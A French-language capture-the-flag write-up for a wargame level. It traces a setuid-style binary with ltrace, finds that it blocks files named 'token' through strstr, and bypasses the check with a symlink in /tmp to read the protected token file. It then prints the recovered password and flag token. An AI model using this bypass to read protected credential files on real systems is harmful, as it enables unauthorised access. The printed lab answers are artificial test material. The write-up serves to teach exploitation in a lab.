 On trouve dans le dossier home un file token, dont nous ne pouvons lire le contenu et un binaire ./level08 qui, si on le lance nous affiche un message:
<pre><code>> ./level08
./level08 [file to read]
> ./level08 token
You may not access 'token'
</code></pre>

On cherche à savoir ce que le binaire fait, pour cela on utilise **ltrace**:
<pre><code>> ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")= "token"
printf("You may not access '%s'\n", "token"You may not access 'token')= 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>
> On observe le <code>strstr("token", "token")= "token"</code> qui veut dire que nous ne pouvons pas lire le fichier quand ce dernier s'appelle "token"

Donc on créé un lien symbolique avec un nom different afin de contourner la vérification:
<pre><code>> ln -s `pwd`/token /tmp/mdp
./level08 /tmp/mdp
quif5eloekouj29ke0vouxean
</code></pre>

On teste le mot de passe :
<pre>
<code>> su flag08</code>
<code>Password: quif5eloekouj29ke0vouxean</code>
</pre>

On obtient la phrase magique **Don't forget to launch getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
</pre>
